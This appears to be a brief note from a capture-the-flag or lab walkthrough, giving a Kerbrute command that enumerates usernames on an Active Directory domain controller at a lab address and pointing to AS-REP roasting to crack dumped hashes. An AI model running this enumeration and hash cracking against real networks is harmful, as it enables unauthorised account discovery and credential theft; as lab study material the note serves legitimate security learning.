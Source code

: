# Kerbrute
```bash
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```
If pre-auth isn't required, a hash will be dumped - refer to AS-REP roasting to crack.
